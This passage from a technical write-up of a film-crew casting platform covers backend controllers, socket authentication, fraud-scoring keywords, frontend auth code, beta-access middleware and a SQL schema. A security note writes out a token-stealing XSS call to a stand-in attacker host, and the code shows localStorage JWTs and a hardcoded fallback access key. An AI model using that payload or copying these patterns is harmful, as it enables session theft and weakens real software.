if (isPaid && !compensationDetails?.trim()) {
  return res.status(400).json({ success: false, message: 'Please describe the compensation clearly (required for paid projects).' });
}

// 2. Multi-Factor Identity Gate (KYC)
const creator = await User.findById(req.user._id).select('isEmailVerified phone dateOfBirth createdAt').lean();
const missingVerifications = [];
if (!creator.isEmailVerified)   missingVerifications.push('email');
if (!creator.phone?.isVerified) missingVerifications.push('phone number');
if (!creator.dateOfBirth)       missingVerifications.push('date of birth (age verification)');

if (missingVerifications.length > 0) {
  return res.status(403).json({
    success: false,
    code:    'VERIFICATION_REQUIRED',
    message: `You must verify the following before posting a project: ${missingVerifications.join(', ')}.`,
    missing: missingVerifications,
  });
}

// 3. Automated Fraud Scoring
const { score, level, flags } = analyzeProject(
  { title, description, isPaid: !!isPaid, shootingLocationType, compensationDetails, location },
  creator,
  { existingProjectCount, reportCount, profileComplete }
);
```
- **KYC Gatekeeper**: Creators must have a verified email, verified phone number, and recorded birthdate before posting a casting call. This prevents bad actors from creating disposable accounts to post exploitative auditions.
- **Auditing & Admin Alerts**: When a project is classified as `level === 'high'`, the controller queries all platform administrators and creates instant alert notifications directing them to review the suspicious project.

---

### `server/src/controllers/applicationController.js`
Implements the casting application workflow across 5 core functions:

1. **`applyToProject`**:
   - Validates that `project.status === 'open'`.
   - Prevents creators from applying to their own projects (`createdBy !== req.user._id`).
   - Checks for existing applications with status `pending` or `accepted` for the role; if found, rejects with HTTP 409.
   - Cleans up any prior `rejected`, `left`, or `removed` applications to allow clean re-applications.
   - Creates the `Application` record, dispatches a socket-backed `Notification` to the owner, and fires an email alert asynchronously.
2. **`updateApplicationStatus`**:
   - Restricted to the project owner.
   - If accepted: pushes the applicant into `project.teamMembers` (if not already present).
   - **Automated Project Closure**: Checks whether all required roles have been filled based on `rolePositions`. If every role's quota has been satisfied, automatically transitions `project.status` from `'open'` to `'in-progress'`.
   - Dispatches acceptance or rejection notifications and emails to the applicant.
3. **`getProjectApplications`**: Returns all applications submitted to a specific project; accessible exclusively by the project creator.
4. **`getMyApplications`**: Retrieves all applications submitted by the authenticated user across all projects, populated with project metadata.
5. **`withdrawApplication`**: Allows applicants to delete their application, restricted strictly to applications that are still in `pending` status.

---

### `server/src/socket/socketHandler.js`
Manages real-time WebSocket communication:

#### Handshake Authentication Middleware
```javascript
io.use(async (socket, next) => {
  try {
    const token = socket.handshake.auth?.token || socket.handshake.query?.token;
    if (!token) return next(new Error('Authentication required'));

    const decoded = jwt.verify(token, process.env.JWT_SECRET);
    const user    = await User.findById(decoded.id).select('-password');
    if (!user) return next(new Error('User not found'));

    socket.user = user;
    next();
  } catch {
    next(new Error('Invalid token'));
  }
});
```
Every socket connection is authenticated via JWT during the initial handshake, attaching the validated user record directly to `socket.user`.

#### Room Architecture & Events
- **Personal Room (`user:<userId>`)**: On connection, every socket joins a private room named after their user ID. This allows the backend to route targeted notifications and direct messages to all active browser tabs owned by that user.
- **`sendMessage`**:
  - Persists the message to the database via `Message.create`.
  - Updates `lastMessage` and `lastMessageAt` on the `Conversation`.
  - Emits `newMessage` to both the sender's and recipient's personal user rooms.
  - Automatically creates a `new_message` notification for offline recipients.
- **`joinProjectRoom` & `sendProjectMessage`**:
  - Authorizes the user by verifying they are the project owner or an accepted team member.
  - Sockets join the group room: `project:<projectChatId>`.
  - Messages sent via `sendProjectMessage` are broadcast to all team members currently in the project room.
  - **Self-Healing Reconnection**: If a client socket reconnects and attempts to send a project message without having re-emitted `joinProjectRoom`, the handler verifies team membership on the fly, adds the socket to the room, and completes delivery seamlessly.
- **Typing Indicators (`typing` / `stopTyping`)**: Emits `userTyping` and `userStoppedTyping` events to conversation rooms, providing real-time visual feedback in the UI.

---

### `server/src/services/fraudDetectionService.js`
An automated heuristic scoring engine that analyzes casting calls to prevent exploitation and scams:

#### Predatory Keywords (`SCAM_KEYWORDS`)
The engine scans text for suspicious patterns across several risk categories:
- **Financial Demands**: `'pay a fee'`, `'registration fee'`, `'audition fee'`, `'advance payment'`, `'wire transfer'`, `'western union'`.
- **Off-Platform Redirection**: `'whatsapp only'`, `'telegram only'`, `'text only'`, `'direct message only'`.
- **Suspicious Casting Language**: `'casting couch'`, `'guaranteed role'`, `'immediate casting'`, `'no experience needed pay'`.
- **Crypto & Gift Cards**: `'bitcoin'`, `'crypto payment'`, `'gift card'`, `'itunes card'`.
- **Impersonation Signals**: `'netflix production'`, `'disney project'`, `'paid in cash only'`.

#### Risk Calculation Algorithm (`analyzeProject`)
```javascript
// Heuristic Weightings Breakdown
let score = 0;
// 1. Keyword matches (+25 points each, capped at 60)
// 2. New account age < 7 days (+20 points)
// 3. New account posting a paid project (+20 points)
// 4. Private residence + paid + new account (+25 points)
// 5. First-ever project on account is paid (+10 points)
// 6. Existing abuse reports against creator (+15 points per report, capped at 40)
// 7. Incomplete user profile (+5 points)
// 8. Email unverified (+10 points)

score = Math.min(score, 100);
const level = score >= 60 ? 'high' : score >= 30 ? 'medium' : 'low';
```
- **Risk Tiers**:
  - `low` (0–29): Clean project; published immediately.
  - `medium` (30–59): Published, but flagged with an amber indicator in administrative monitoring views.
  - `high` (60+): Flagged for administrative audit; dispatches urgent alert notifications to all platform admins.

---

### `server/src/services/recommendationService.js`
A weighted recommendation engine that matches open casting calls to creators based on their profile data:

```
┌──────────────────────────────────────────────┐
│  Scoring Signal             Maximum Weight   │
├──────────────────────────────────────────────┤
│  1. Role Match                  +40 pts      │
│  2. Skill Overlap               +30 pts      │
│  3. Geographic Location         +20 pts      │
│  4. Experience Proximity        +10 pts      │
├──────────────────────────────────────────────┤
│  Total Perfect Match           100 pts       │
└──────────────────────────────────────────────┘
```

#### Signal Calculation Mechanics
1. **Role Match (+40 pts)**: Evaluates whether the user's primary `role` matches any entry in `project.requiredRoles` using a case-insensitive regex check.
2. **Skill Overlap (+0 to +30 pts)**: Calculates the ratio of the user's listed skills that match words within the required roles array: `Math.round((matched / totalSkills) * 30)`.
3. **Geographic Proximity (+10 to +20 pts)**: Awards +20 points if both country and city match, +15 points if the country matches, or +10 points if the project is marked `isRemote: true`.
4. **Experience Proximity (+0 to +10 pts)**: Orders experience levels (`['beginner', 'intermediate', 'advanced', 'professional']`). Compares the user's level against the project creator's level. Exact matches earn +10 points, losing 2.5 points for each degree of separation: `Math.max(0, 10 - distance * 2.5)`.

#### N+1 Query Optimization & Fallback Padding
- **Batching Optimization**: Rather than querying the creator's profile individually for each candidate project (which would trigger an N+1 query problem), the service collects all unique creator IDs and fetches their profiles in a single batch query: `Profile.find({ user: { $in: creatorIds } })`.
- **Graceful Fallback**: If fewer than 3 projects score points, the engine queries the most recent open projects to pad the response, ensuring new users never see an empty recommendation feed.

---

### `server/src/utils/emailService.js`
A multi-tier email service that falls back across providers to guarantee delivery:

```
Priority 1: Gmail SMTP (Nodemailer - requires GMAIL_USER & GMAIL_PASS)
   │ (if unconfigured or fails)
   ▼
Priority 2: Brevo HTTP API (Direct POST to api.brevo.com/v3/smtp/email)
   │ (if unconfigured or fails)
   ▼
Priority 3: Resend HTTP API (Direct POST to api.resend.com/emails)
   │ (if unconfigured or fails)
   ▼
Priority 4: Custom SMTP (Nodemailer - host, port, credentials)
   │ (if unconfigured)
   ▼
Fallback: Log warning to stdout and skip delivery (dev mode)
```

#### Shared Transactional Layout (`transactionalHtml`)
All notification templates are wrapped in a clean, table-based HTML email layout designed for consistent rendering across modern email clients (Gmail, Apple Mail, Outlook) without relying on external CSS sheets.
- **Supported Templates**: `sendEmailOTP`, `sendApplicationReceived`, `sendApplicationAccepted`, `sendApplicationDeclined`, `sendPasswordReset`, `sendProjectApproved`, `sendProjectRejected`, `sendProjectEditedNotice`, `sendLaunchNotification`, `sendContestWinner`, `sendBookingConfirmed`, `sendBookingRequested`.

---

## A5. Codebase Breakdown — Frontend [Frontend]

### `client/src/lib/api.js`
The centralized HTTP communication layer. Configures an Axios instance with request and response interceptors and exports organized API namespaces:

```javascript
import axios from 'axios';

const API_URL = process.env.NEXT_PUBLIC_API_URL || 'http://localhost:5001/api';

const api = axios.create({
  baseURL: API_URL,
  headers: { 'Content-Type': 'application/json' },
  withCredentials: true,
});
```

#### Request & Response Interceptors
```javascript
// Request Interceptor: Injects Bearer Token
api.interceptors.request.use((config) => {
  if (typeof window !== 'undefined') {
    const token = localStorage.getItem('crewup_token');
    if (token) config.headers.Authorization = `Bearer ${token}`;
  }
  return config;
});

// Response Interceptor: Catches 401 Session Expirations
api.interceptors.response.use(
  (res) => res,
  (error) => {
    if (error.response?.status === 401) {
      if (typeof window !== 'undefined') {
        localStorage.removeItem('crewup_token');
        localStorage.removeItem('crewup_user');
        window.location.href = '/login';
      }
    }
    return Promise.reject(error);
  }
);
```
- **Automatic Authorization**: Every outgoing HTTP call checks `localStorage` for `crewup_token` and automatically appends `Authorization: Bearer <token>`, keeping individual UI components free from manual header wiring.
- **Global 401 Eviction**: If any API call returns HTTP 401 (token expired or revoked), the response interceptor purges credentials from local storage and redirects the browser to `/login`.

#### Exported API Namespaces
The file exports 23 modular API objects that map frontend operations directly to backend REST endpoints:
- `authAPI`: Handles registration, login, `/auth/me`, Google OAuth, email/phone OTP dispatch and verification, and password reset handshakes.
- `profileAPI`: Fetches public profiles by ID or `/profile/me`, submits updates, and uploads base64 profile pictures.
- `projectAPI`: Full CRUD on projects, `/projects/recommended`, `/projects/my`, `/projects/bookmarks`, YouTube release links, and status updates.
- `applicationAPI`: Submits casting applications (`/apply`), fetches user or project applications, updates application status, and withdraws applications.
- `crewMatchAPI`: Retrieves AI/algorithmic talent recommendations for open roles on a project.
- `conversationAPI`: Fetches conversations, starts 1:1 threads, retrieves historical messages, and manages user block lists.
- `notificationAPI`: Manages in-app notifications, fetches unread counts, and marks notifications as read.
- `searchAPI` & `exploreAPI`: Powers full-text and faceted search for projects and creators based on skills and locations.
- `leaderboardAPI`: Fetches creator rankings based on completed project counts and engagement.
- `fillRoleAPI`: Directly marks a project role as filled, removes crew members, or handles voluntary member departure.
- `portfolioAPI`: Adds and deletes portfolio media cards and certificates.
- `timelineAPI`: Updates project production milestones (`planning` → `pre-production` → `production` → `post-production` → `released`).
- `mapAPI`: Retrieves geographical coordinates of creators with public location visibility.
- `taskAPI`: Manages production kanban tasks (to-do, doing, done) for active crew members.
- `teamFileAPI`: Manages shared production assets and cloud document links.
- `reviewAPI`: Submits and displays peer reviews between creators following project wrap.
- `scheduleAPI`: Manages call times, shoot days, and production calendar events.
- `followAPI`: Manages user following graphs, checks follow status, and pulls social feed updates.
- `waitlistAPI`: Allows creators to join a project waitlist for roles that are currently full.
- `mentorAPI`: Mentorship directory queries, weekly schedule management, booking slot generation, and 1:1 consultation messaging.
- `launchWaitlistAPI`: Collects pre-launch user signups.
- `adminAPI`: Powers administrative analytics, user suspension toggles, moderation queues, verified badges, and fraud risk monitoring.
- `reportAPI`: Submits abuse and safety violations for administrative review.
- `contestAPI` & `contestSubmissionAPI`: Filmmaking contest creation, film submission uploads, voting, community comments, and prize claims.
- `filmAPI`: Community interactions on released films (likes, comments, bookmarks, and play analytics).

---

### `client/src/lib/auth.js`
Provides simple helper functions for browser authentication state management:

```javascript
export const saveAuth = (token, user) => {
  if (typeof window === 'undefined') return;
  localStorage.setItem('crewup_token', token);
  localStorage.setItem('crewup_user', JSON.stringify(user));
};

export const getStoredUser = () => {
  if (typeof window === 'undefined') return null;
  try {
    const u = localStorage.getItem('crewup_user');
    return u ? JSON.parse(u) : null;
  } catch {
    return null;
  }
};

export const getToken = () => {
  if (typeof window === 'undefined') return null;
  return localStorage.getItem('crewup_token');
};

export const clearAuth = () => {
  if (typeof window === 'undefined') return;
  localStorage.removeItem('crewup_token');
  localStorage.removeItem('crewup_user');
};

export const isAuthenticated = () => !!getToken();
```

#### Security Analysis: LocalStorage XSS Vulnerability
- **The Vulnerability**: Storing sensitive JWTs in `localStorage` leaves them accessible to any JavaScript executing in the browser context via `window.localStorage`. If the application suffers from a Cross-Site Scripting (XSS) vulnerability (such as rendering unsanitized user portfolio bios or chat messages), an attacker can extract the token via `fetch('attacker.com?token=' + localStorage.getItem('crewup_token'))`.
- **Recommended Remediation**: Session tokens should ideally be stored in `httpOnly`, `Secure`, `SameSite=Lax` cookies, preventing client-side scripts from reading token values directly.

---

### `client/src/hooks/useAuth.js`
Provides authentication state to the entire React component tree via React Context (`AuthContext`):

```javascript
'use client';
import { useState, useEffect, createContext, useContext } from 'react';
import { authAPI } from '@/lib/api';
import { saveAuth, getStoredUser, clearAuth } from '@/lib/auth';

const AuthContext = createContext(null);

export function AuthProvider({ children }) {
  const [user, setUser]       = useState(null);
  const [loading, setLoading] = useState(true);

  useEffect(() => {
    // 1. Instant optimistic hydration from localStorage
    const stored = getStoredUser();
    if (stored) {
      setUser(stored);
      // 2. Authoritative background revalidation with server
      authAPI.me()
        .then(({ data }) => setUser(data.user))
        .catch((err) => {
          if (err.response?.status === 401) { clearAuth(); setUser(null); }
        })
        .finally(() => setLoading(false));
    } else {
      setLoading(false);
    }
  }, []);

  const login = async (email, password) => {
    const { data } = await authAPI.login({ email, password });
    saveAuth(data.token, data.user);
    setUser(data.user);
    return data;
  };

  const register = async (formData) => {
    const { data } = await authAPI.register(formData);
    if (data.token && data.user) {
      saveAuth(data.token, data.user);
      setUser(data.user);
    }
    return data;
  };

  const logout = () => {
    clearAuth();
    setUser(null);
    window.location.href = '/';
  };

  return (
    <AuthContext.Provider value={{ user, loading, login, register, logout }}>
      {children}
    </AuthContext.Provider>
  );
}

export const useAuth = () => useContext(AuthContext);
```
- **Optimistic Hydration Flow**: On initial page load, `useEffect` reads the cached user object from `localStorage` immediately, eliminating UI flickering. It then asynchronously validates the session by calling `/api/auth/me`. If the token has expired or been revoked on the server, local storage is cleared and the state resets to `null`.
- **Global Availability**: Any component can consume user profile data or trigger authentication methods by calling `const { user, login, logout } = useAuth()`.

---

### `client/src/hooks/useSocket.js`
Implements a singleton WebSocket connection management pattern:

```javascript
'use client';
import { useState, useEffect } from 'react';
import { io }                  from 'socket.io-client';
import { getToken }            from '@/lib/auth';

const SOCKET_URL = process.env.NEXT_PUBLIC_API_URL?.replace('/api', '') || 'http://localhost:5001';
let socketInstance = null; // Module-level singleton

export function useSocket() {
  const [socket, setSocket] = useState(() =>
    socketInstance?.connected ? socketInstance : null
  );

  useEffect(() => {
    const token = getToken();
    if (!token) return;

    if (socketInstance?.connected) {
      setSocket(socketInstance);
      return;
    }

    if (socketInstance) {
      const onConnect = () => setSocket(socketInstance);
      socketInstance.on('connect', onConnect);
      return () => socketInstance.off('connect', onConnect);
    }

    // Initialize the single shared WebSocket connection
    const s = io(SOCKET_URL, {
      auth:                 { token },
      transports:           ['websocket', 'polling'],
      reconnection:         true,
      reconnectionDelay:    1000,
      reconnectionAttempts: 10,
    });

    s.on('connect',    () => setSocket(s));
    s.on('disconnect', () => setSocket(null));
    s.on('reconnect',  () => setSocket(s));

    socketInstance = s;

    return () => {
      // Do NOT disconnect on component unmount — preserve the connection across pages
    };
  }, []);

  return socket;
}

export function disconnectSocket() {
  if (socketInstance) {
    socketInstance.disconnect();
    socketInstance = null;
  }
}
```
- **The Singleton Architecture**: Rather than opening and closing WebSocket channels every time a user navigates between pages (which causes reconnect spikes and missed messages), `useSocket` maintains a single module-level `socketInstance`.
- **State Integration**: Uses `useState` alongside the module singleton so that React components automatically re-render and register their event listeners as soon as the socket establishes its connection.
- **Clean Logout Cleanup**: Exports `disconnectSocket()` to explicitly tear down the connection when the user signs out.

---

### `client/src/middleware.js`
An Edge middleware that acts as a private launch gate for closed beta testing:

```javascript
import { NextResponse } from 'next/server';

const LAUNCH_MODE = process.env.NEXT_PUBLIC_LAUNCH_MODE || 'private';
const ACCESS_KEY  = process.env.NEXT_PUBLIC_ACCESS_KEY  || 'crewup2026';
const COOKIE_NAME = 'crewup_access';

const PUBLIC_PATHS = [
  '/waitlist', '/login', '/signup', '/forgot-password',
  '/reset-password', '/verify-email', '/verify-phone',
];

export function middleware(request) {
  const { pathname } = request.nextUrl;

  // Pass static assets and Next.js internal bundles
  if (pathname.startsWith('/_next') || pathname.includes('.')) {
    return NextResponse.next();
  }

  // If public launch mode is enabled, allow full traffic
  if (LAUNCH_MODE === 'public') return NextResponse.next();

  // Allow unauthenticated onboarding paths
  if (PUBLIC_PATHS.some((p) => pathname.startsWith(p))) return NextResponse.next();

  // Validate 30-day access cookie
  if (request.cookies.get(COOKIE_NAME)?.value === 'granted') {
    return NextResponse.next();
  }

  // Check ?ref= URL access parameter
  if (request.nextUrl.searchParams.get('ref') === ACCESS_KEY) {
    const cleanUrl = new URL(pathname, request.url);
    const response = NextResponse.redirect(cleanUrl);
    response.cookies.set(COOKIE_NAME, 'granted', {
      maxAge:   60 * 60 * 24 * 30, // 30 days
      httpOnly: false,
      sameSite: 'lax',
      path:     '/',
    });
    return response;
  }

  // Lock out unauthorized traffic — redirect to waitlist
  return NextResponse.redirect(new URL('/waitlist', request.url));
}
```
- **Beta Access Control**: When `LAUNCH_MODE === 'private'`, general visitors are redirected to `/waitlist`. Users arriving via an invite link with `?ref=crewup2026` have a 30-day `crewup_access=granted` cookie set and gain access to the platform.
- **Edge Performance**: Runs on Vercel's Edge network before request routing reaches Node.js or static renderers, minimizing server load.

---

### Application Pages and Routes
- `/login`: Form for email and password authentication, complete with Google OAuth buttons.
- `/signup`: Multi-field registration form capturing name, username, password, role preferences, and birthdate for age verification.
- `/verify-email`: 6-digit numeric OTP entry screen with a 60-second resend cooldown timer.
- `/verify-phone`: SMS-based phone verification screen supporting Indian and international formats.
- `/forgot-password` & `/reset-password`: Self-service password recovery flow utilizing cryptographic token links.
- `/dashboard`: Primary authenticated hub displaying personalized project recommendations, active production updates, and shortcut cards.
- `/projects`: Main casting call catalog with faceted filters (project type, roles, paid/unpaid, remote).
- `/projects/[id]`: Detailed project overview displaying needed roles, compensation details, audition requirements, and the role application form.
- `/projects/create-project`: Multi-step casting call wizard with built-in KYC verification checks and safety validations.
- `/explore`: Talent discovery catalog allowing creators to search for crew by skill, city, and availability.
- `/search`: Universal search interface querying projects, creators, and filmmaking tags.
- `/messages`: Real-time messaging dashboard supporting both 1:1 direct conversations and project team chats.
- `/notifications`: Activity feed displaying application updates, message alerts, and platform announcements.
- `/profile/[id]`: Public creator portfolio showcasing bio, skills, video reels, verified badges, and completed projects.
- `/mentors`: Directory of film industry mentors, complete with rate listings, reviews, and interactive booking calendars.
- `/contests`: Platform film competitions, rules, submission deadlines, and community voting feeds.
- `/admin`: Administrative moderation control center displaying user management tools, pending project queues, and automated risk scoring monitors.
- `/waitlist`: Public landing page for prospective users during closed beta testing phases.

---

## A5. Connection Map & End-to-End Flow Traces [Both]

### Screen & Endpoint Interaction Map

| Frontend Screen / Component | Backend Endpoints Called | Socket Events Consumed / Emitted | Request Payload Shape | Response Data Shape |
|---|---|---|---|---|
| **`/signup`** (`SignupForm`) | `POST /api/auth/register` | None | `{ name, username, email, password, role, roles, dateOfBirth, gender }` | `{ success: true, token, user: {...}, requiresEmailVerification: true }` |
| **`/login`** (`LoginForm`) | `POST /api/auth/login`<br>`POST /api/auth/google` | None | `{ email, password }` or `{ idToken, username? }` | `{ success: true, token, user: {...} }` |
| **`/verify-email`** | `POST /api/auth/verify-email`<br>`POST /api/auth/send-email-otp` | None | `{ code: "123456" }` | `{ success: true, token, user: {...} }` |
| **`/verify-phone`** | `POST /api/auth/send-phone-otp`<br>`POST /api/auth/verify-phone` | None | `{ phone: "+91..." }`<br>`{ code: "123456" }` | `{ success: true, message: "..." }`<br>`{ success: true, token, user }` |
| **`/dashboard`** | `GET /api/projects/recommended`<br>`GET /api/notifications/unread-count`<br>`GET /api/projects/my` | Consumes: `newNotification` | Query Params: None (Bearer Token) | `{ success: true, data: [Project] }`<br>`{ success: true, count: 4 }` |
| **`/projects/create-project`** | `POST /api/projects` | None | `{ title, description, projectType, requiredRoles, isPaid, budget, compensationDetails, shootingLocationType, ... }` | `{ success: true, message: "...", data: Project }` or `403 VERIFICATION_REQUIRED` |
| **`/projects/[id]`** | `GET /api/projects/:id`<br>`POST /api/apply`<br>`POST /api/projects/:id/waitlist` | None | `{ projectId, roleApplyingFor, message }` | `{ success: true, message: "Application submitted", data: Application }` |
| **`/projects/[id]/applications`** | `GET /api/applications/:projectId`<br>`PUT /api/application/status` | Consumes: `newNotification` | `{ applicationId, status: "accepted"|"rejected", reviewNote }` | `{ success: true, message: "Application accepted", data: Application }` |
| **`/messages`** (`ChatWindow`) | `GET /api/conversations`<br>`GET /api/messages/:id`<br>`GET /api/project-chat/:id/messages` | Emits: `sendMessage`, `sendProjectMessage`, `typing`<br>Consumes: `newMessage`, `newProjectMessage`, `userTyping` | Socket: `{ conversationId, text }` or `{ projectChatId, text }` | Socket: `newMessage { _id, sender, text, conversationId, createdAt }` |
| **`Navbar`** (`NotificationDropdown`) | `GET /api/notifications`<br>`PATCH /api/notifications/:id/read` | Consumes: `newNotification` | Header Bearer Token | `{ success: true, data: [Notification] }` |
| **`/mentors`** | `GET /api/mentors`<br>`POST /api/mentors/:id/bookings` | None | `{ mentorId, date, slotTime, sessionType, notes }` | `{ success: true, booking: {...} }` |
| **`/admin`** | `GET /api/admin/stats`<br>`GET /api/admin/risk-monitor`<br>`PATCH /api/admin/projects/:id/moderate` | None | Query params / `{ action: "approve"|"reject", note }` | `{ success: true, projects: [...] }` |

---

### End-to-End Architectural Flow Traces

#### Flow 1: User Registration and Email Verification
This flow details how a new user creates an account and completes email OTP verification:

```mermaid
sequenceDiagram
    autonumber
    actor User as Filmmaker Browser
    participant Client as Next.js (useAuth / api.js)
    participant Server as Express (authController.js)
    participant Model as MongoDB (User & Profile)
    participant Email as Email Dispatcher (emailService.js)

    User->>Client: Enters Name, Username, Email, Password, Role, DOB
    Client->>Server: POST /api/auth/register { payload }
    Note over Server: express-validator checks string lengths & formats
    Server->>Model: User.findOne({ $or: [{ email }, { username }] })
    Model-->>Server: null (Available)
    Note over Server: computeIsMinor(DOB) -> false<br/>generateOTP() -> "849201" (10m expiry)
    Server->>Model: User.create({ ..., emailOTP: { code, expiresAt } })
    Note over Model: pre('save') hashes password (12 rounds)<br/>generates uid: CUF-2026-X8F2A1
    Model-->>Server: Created user document
    Server->>Model: Profile.create({ user: user._id })
    Server-->>Email: sendEmailOTP(email, name, "849201") (fire-and-forget)
    Note over Server: generateToken(user._id) -> JWT (7d)
    Server-->>Client: HTTP 201 { success: true, token, user, requiresEmailVerification: true }
    Client->>Client: saveAuth(token, user) -> localStorage
    Client-->>User: Redirects to /verify-email

    User->>Client: Enters OTP code "849201"
    Client->>Server: POST /api/auth/verify-email { code: "849201" } (Bearer Token)
    Note over Server: protect middleware validates JWT -> sets req.user
    Server->>Model: User.findById(req.user._id).select('+emailOTP.code +emailOTP.expiresAt')
    Note over Server: Validates code match & expiresAt > Date.now()
    Server->>Model: user.isEmailVerified = true, emailOTP = undefined; user.save()
    Server-->>Client: HTTP 200 { success: true, message: "Email verified", token, user }
    Client->>Client: saveAuth(newToken, updatedUser)
    Client-->>User: Verification successful! Redirects to /dashboard
```

---

#### Flow 2: User Login Session Establishment
This flow details standard credential authentication and session establishment:



---

#### Flow 3: Project Creation and Fraud Risk Scoring
This flow traces KYC verification gating and automated heuristic fraud analysis during casting call creation:



---

#### Flow 4: Application Submission and Creator Review
This flow traces how an applicant applies for a role and how the creator accepts them onto the crew:



---

#### Flow 5: Real-Time Message Delivery
This flow details how chat messages are sent and delivered in real time across WebSockets:



---

## A6. Database Architecture & SQL Schema Translation [Backend]

### Entity-Relationship Diagram
The diagram below maps the relationships across the primary collections in MongoDB:



---

### PostgreSQL Equivalent Schema (`CREATE TABLE` DDL)
To demonstrate architectural fluency between NoSQL document stores and relational database engines, below are the production-grade PostgreSQL DDL statements corresponding to the primary Mongoose models:

```sql
-- 1. Custom ENUM Types
CREATE TYPE auth_provider_enum AS ENUM ('local', 'google');
CREATE TYPE gender_enum AS ENUM ('male', 'female', 'non-binary', 'prefer-not-to-say', 'unspecified');
CREATE TYPE experience_level_enum AS ENUM ('beginner', 'intermediate', 'advanced', 'professional');
CREATE TYPE availability_enum AS ENUM ('available', 'busy', 'open-to-offers');
CREATE TYPE project_type_enum AS ENUM (
  'short-film', 'feature-film', 'youtube', 'music-video', 'podcast',
  'web-series', 'documentary', 'commercial', 'photography', 'music', 'other'
);
CREATE TYPE project_status_enum AS ENUM ('open', 'in-progress', 'completed', 'cancelled');
CREATE TYPE application_status_enum AS ENUM ('pending', 'accepted', 'rejected', 'left', 'removed');
CREATE TYPE risk_level_enum AS ENUM ('low', 'medium', 'high');
CREATE TYPE moderation_status_enum AS ENUM ('pending', 'approved', 'rejected');

-- 2. Users Table
CREATE TABLE users (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    uid VARCHAR(32) UNIQUE NOT NULL,
    name VARCHAR(100) NOT NULL,
    username VARCHAR(30) UNIQUE NOT NULL,
    email VARCHAR(255) UNIQUE NOT NULL,
    password_hash VARCHAR(255),
    google_id VARCHAR(255) UNIQUE,
    auth_provider auth_provider_enum DEFAULT 'local' NOT NULL,
    role VARCHAR(50) DEFAULT 'other' NOT NULL,
    roles TEXT[] DEFAULT '{}' NOT NULL,
    profile_image TEXT DEFAULT '',
    is_active BOOLEAN DEFAULT TRUE NOT NULL,
    is_suspended BOOLEAN DEFAULT FALSE NOT NULL,
    is_admin BOOLEAN DEFAULT FALSE NOT NULL,
    gender gender_enum DEFAULT 'unspecified' NOT NULL,
    date_of_birth DATE,
    is_minor BOOLEAN DEFAULT FALSE NOT NULL,
    is_email_verified BOOLEAN DEFAULT FALSE NOT NULL,
    email_otp_code VARCHAR(6),
    email_otp_expires_at TIMESTAMP WITH TIME ZONE,
    phone_number VARCHAR(20) DEFAULT '',
    is_phone_verified BOOLEAN DEFAULT FALSE NOT NULL,
    phone_otp_code VARCHAR(6),
    phone_otp_expires_at TIMESTAMP WITH TIME ZONE,
    reset_password_token VARCHAR(64),
    reset_password_expires TIMESTAMP WITH TIME ZONE,
    created_at TIMESTAMP WITH TIME ZONE DEFAULT CURRENT_TIMESTAMP NOT NULL,
    updated_at TIMESTAMP WITH TIME ZONE DEFAULT CURRENT_TIMESTAMP NOT NULL
);

CREATE INDEX idx_users_username ON users(username);
CREATE INDEX idx_users_email ON users(email);

-- 3. Profiles Table (1:1 with Users)
CREATE TABLE profiles (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    user_id UUID UNIQUE NOT NULL REFERENCES users(id) ON DELETE CASCADE,
    bio VARCHAR(500) DEFAULT '',
    skills TEXT[] DEFAULT '{}',
    location_city VARCHAR(100) DEFAULT '',
    location_district VARCHAR(100) DEFAULT '',
    location_state VARCHAR(100) DEFAULT '',
    location_country VARCHAR(100) DEFAULT '',
    location_visible BOOLEAN DEFAULT TRUE NOT NULL,
    portfolio_links JSONB DEFAULT '[]',
    experience_level experience_level_enum DEFAULT 'beginner' NOT NULL,
    availability availability_enum DEFAULT 'available' NOT NULL,
    is_mentor BOOLEAN DEFAULT FALSE NOT NULL,
    mentor_status VARCHAR(20) DEFAULT 'open',
    mentor_fields TEXT[] DEFAULT '{}',
    mentor_bio VARCHAR(500) DEFAULT '',
    mentor_rate NUMERIC(10, 2),
    mentor_currency VARCHAR(10) DEFAULT 'INR',
    mentor_experience INT,
    mentor_weekly_schedule JSONB DEFAULT '[]',
    social_links JSONB DEFAULT '{}',
    portfolio JSONB DEFAULT '[]',
    is_verified BOOLEAN DEFAULT FALSE NOT NULL,
    completed_projects_count INT DEFAULT 0 NOT NULL,
    emergency_contact JSONB DEFAULT '{}',
    safe_check_in JSONB DEFAULT '{}',
    created_at TIMESTAMP WITH TIME ZONE DEFAULT CURRENT_TIMESTAMP NOT NULL,
    updated_at TIMESTAMP WITH TIME ZONE DEFAULT CURRENT_TIMESTAMP NOT NULL
);

-- 4. Projects Table
CREATE TABLE projects (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    title VARCHAR(150) NOT NULL,
    description TEXT NOT NULL,
    project_type project_type_enum NOT NULL,
    required_roles TEXT[] NOT NULL,
    is_paid BOOLEAN DEFAULT FALSE NOT NULL,
    budget VARCHAR(100) DEFAULT '',
    location_city VARCHAR(100) DEFAULT '',
    location_country VARCHAR(100) DEFAULT '',
    is_remote BOOLEAN DEFAULT FALSE NOT NULL,
    deadline TIMESTAMP WITH TIME ZONE,
    status project_status_enum DEFAULT 'open' NOT NULL,
    created_by UUID NOT NULL REFERENCES users(id) ON DELETE RESTRICT,
    shooting_location_type VARCHAR(50) DEFAULT 'not-specified',
    compensation_details VARCHAR(300) DEFAULT '',
    role_descriptions JSONB DEFAULT '{}',
    role_positions JSONB DEFAULT '{}',
    moderation_status moderation_status_enum DEFAULT 'approved' NOT NULL,
    auto_suspended BOOLEAN DEFAULT FALSE NOT NULL,
    risk_score INT DEFAULT 0 NOT NULL,
    risk_level risk_level_enum DEFAULT 'low' NOT NULL,
    risk_flags TEXT[] DEFAULT '{}',
    is_draft BOOLEAN DEFAULT FALSE NOT NULL,
    youtube_link TEXT DEFAULT '',
    created_at TIMESTAMP WITH TIME ZONE DEFAULT CURRENT_TIMESTAMP NOT NULL,
    updated_at TIMESTAMP WITH TIME ZONE DEFAULT CURRENT_TIMESTAMP NOT NULL
);

CREATE INDEX idx_projects_status_type_created ON projects(status, project_type, created_at DESC);
CREATE INDEX idx_projects_country ON projects(location_country);

-- 5. Project Team Members (Junction Table)
CREATE TABLE project_team_members (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    project_id UUID NOT NULL REFERENCES projects(id) ON DELETE CASCADE,
    user_id UUID NOT NULL REFERENCES users(id) ON DELETE CASCADE,
    role VARCHAR(100) NOT NULL,
